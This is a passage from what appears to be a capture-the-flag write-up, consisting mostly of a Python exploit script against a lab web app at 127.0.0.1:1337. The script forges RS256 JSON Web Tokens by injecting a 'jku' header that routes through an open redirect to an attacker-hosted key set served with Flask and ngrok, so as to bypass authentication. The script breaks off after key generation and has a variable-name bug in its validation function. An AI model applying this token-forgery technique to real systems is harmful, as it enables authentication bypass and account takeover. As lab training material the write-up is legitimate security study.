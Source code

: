 To streamline the entire exploit process, you can combine all steps into a single script that automates user registration, login, friend requests, transaction execution, and flag retrieval.

```python
import requests, jwt, datetime, os
from Crypto.PublicKey import RSA
from pyngrok import ngrok
from flask import Flask, jsonify
from jwt.utils import base64url_encode

HOST = 'http://127.0.0.1:1337'
REMOTE_JWKS = f'{HOST}/.well-known/jwks.json'
JWKS_PORT = 9000
FINANCIAL_EMAIL = 'financial-controller@frontier-board.htb'
COIN_SYMBOL = 'CLCR'

app = Flask(__name__)

jwks_data = {}

@app.route('/', methods=['GET'])
def serve_jwks():
    try:
        return jsonify(jwks_data), 200
    except Exception as e:
        app.logger.error(f'Error serving JWKS: {str(e)}')
        return jsonify({'error': 'Internal Server Error'}), 500

def fetch_kid_from_jwks():
    response = requests.get(REMOTE_JWKS)
    jwks = response.json()
    if 'keys' in jwks and len(jwks['keys']) > 0:
        kid = jwks['keys'][0]['kid']
        print(f'[+] Extracted kid: {kid}')
        return kid
    else:
        print('[-] No keys found in JWKS.')
        return None

def open_redirect(redirect):
    return  f'http://127.0.0.1:1337/api/analytics/redirect?ref=deeznuts&url={redirect}/'

def create_forged_jwt(jku_url, kid, priv_key, payload):
    headers = {
        'alg': 'RS256',
        'typ': 'JWT',
        'kid': kid,
        'jku': open_redirect(jku_url),
    }
    token = jwt.encode(payload, priv_key, algorithm='RS256', headers=headers)
    return token

def validate_token(token):
    response = requests.get(f'{HOST}/api/dashboard', headers={'Authorization': f'Bearer {forged_token}'})
    if response.status_code == 200:
        print('[+] JWT validation successful! Response:')
        print(response.json())
    else:
        print(f'[!] JWT validation failed. Status: {response.status_code}, Response: {response.text}')

print('[+] Generating RSA Key Pair...')
key_pair = RSA.generate(2048)
```